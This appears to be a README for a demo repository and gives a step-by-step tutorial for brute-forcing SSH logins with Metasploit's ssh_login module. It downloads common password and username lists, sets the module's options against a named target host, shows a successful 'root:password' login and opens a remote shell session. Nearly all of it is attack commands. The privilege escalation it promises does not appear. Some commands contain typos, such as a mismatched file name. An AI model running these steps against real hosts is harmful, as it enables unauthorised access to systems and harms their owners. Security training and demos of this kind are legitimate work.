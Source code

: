 # Bruteforcing-SSH
This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 

First download a list of common users & weak passwords
curl https://download.weakpass.com/wordlists/90/rockyou.txt.gz | gunzip > /tmp/passwords.txt
curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt > /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
`head /tmp/passwords.txt`
`head /tmp/users.txt`

# Metasploit

Download the latest version of Metasploit Framework (OSS)
`curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall`   

 set correct Permissions 
`chmod 755 msfinstall`

 Run the install script
`./msfinstall`

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path:
``ls /opt/
google  metasploit-framework``

`echo $PATH`
/home/mhillis/.local/bin:/home/mhillis/bin:/usr/share/Modules/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/var/lib/snapd/snap/bin

Add the /opt/metasploit-framework/bin/ directory to our path
`PATH=/opt/metasploit-framework/bin/:$PATH`

Add Metasploit repo to our systems and make sure we have the latest version of metasploit
`msfupdate`

Launch the metasploit framework console
`msfconsole`

List the available exploits modules for metasploit
`show exploits`

Because there are over 2000 modules it may make more sense to search for one we're looking for
`search ssh login`

for this demo select the auxiliary/scanner/ssh/ssh_login exploit module
`use auxiliary/scanner/ssh/ssh_login'

List the options available for this module
`options`

Define some options to launch a brute force attack against a target host
`set stop_on_success`
`set pass_file /tmp/password.txt`
`set user_file /tmp/users.txt`
`set threads 10`

Define a target
`set rhost graffias.openincite.net`

Launch the brute force
`exploit`

Metasploit successfully authenitcates with a usr/pass provided in our lists. 
`[+] 192.168.0.136:22 - Success: 'root:password'`

Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions
`sessions`

To interact with the open session from the ssh_login module use the session command along with the -i flag followed by the <session id>
`sessions -i 1`

Now we have a shell to the remote system even though you will not see a prompt, try typing some basic commands
`hostname -f` 
`uname -a`

